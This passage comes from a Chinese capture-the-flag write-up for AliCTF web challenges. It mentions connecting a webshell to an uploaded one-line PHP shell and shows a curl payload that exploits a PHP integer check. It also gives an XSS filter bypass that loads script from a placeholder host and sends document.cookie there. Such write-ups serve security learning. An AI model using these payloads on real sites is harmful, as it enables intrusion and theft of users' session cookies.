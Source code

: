 然后在上级目录找到上传后的一句话,就可以菜刀连接了。 菜刀连上去之后发觉/home/wwwroot/default/upload 目录下面有一个 dfghjdjlkfghd.zip。但是有密码,所以一时之间束手无测。随后根据提示,要去 Github 上进行查找。然后再根据之前 curl 连接的时候发觉返回结果有一个注释,大概是这个样子:

```
<!--
    @author: nidongde
--> 
```

自然地,就去找 nidongde 的 github 主页,随后发现 https://github.com/nidongde/test 页面有解压缩密码: test_nidongde,解压之后得到一个 php 文件。提供了它的网址,以及一段内容,通过认证之后服务器会返回 flag。条件:

```
if($key == '_POST' && ~$value['alibaba']['security'] == -2347230984235 && strlen($value['alibaba']['security']) >= 0){ 
```

由于对 GET、GLOBAL 等做了过滤,所以就用 POST 方式传数据。一开始卡住了,因为发现弄不出足够大的整数取反之后符合要求,但是再根据提示要用 x64 的思维。x64 下面自然 int 类型是很大的。最后的 payload 如下:

```
curl -d '_POST[alibaba][security]=2347230984234' -i 'http://web400b.alictf.com/alibaba_CTF_security/' 
```

即可得到 flag。

### 500pt

页面最顶端 js 解密后为

```
location.href.indexOf("helloalibaba")==-1&&(location.href="http://www.alictf.com/"); 
```

即需要在 url 里有"helloalibaba",可以人为构造 a= helloalibaba 来绕过

经过测试,本题有两层过滤。

Php 过滤单引号、双引号和“-”,防止逃逸出 script 标签。

Js 主要过滤`<`,并把所有字母变大写。

因为参数直接输出在`<script>`内,绕过 php 的过滤可用 js 的字符编码,变成\xff 形式。

对 js 过滤,可以用`<<script></script>`绕过。因为会把所有字母变大写,所以`<script>`标签里 js 代码中不能出现字母。在这里通过调用远程 js 代码来避免写这种 js。

因此最终 payload 为

```
<<script src=//xxx/1.js></script> 
```

￼￼￼￼￼￼￼￼ ￼在 linux 服务器上创建 1.JS 文件,内容为

```
p://xxx/xss.php?x='+document.cookie; 
```

提交得到 flag。
